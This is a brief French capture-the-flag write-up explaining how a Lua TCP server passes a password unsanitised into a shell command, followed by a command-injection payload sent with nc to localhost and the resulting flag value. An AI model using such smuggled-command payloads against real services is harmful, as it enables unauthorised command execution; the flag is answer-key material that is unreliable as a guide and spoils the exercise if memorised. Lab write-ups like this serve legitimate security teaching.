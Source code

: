 1. En regardant le fichier lua on comprends que le serveur tcp ecoute pour un mot de passe pui execute cette commande shell `echo "..pass.." | sha1sum`
2. Il suffit d'ecrire le payload suivant
```
echo '$(getflag) > /tmp/log && echo -n NotSoEasy' | nc 127.0.0.1 5151; cat /tmp/log
```

> Flag: fa6v5ateaw21peobuub8ipe6s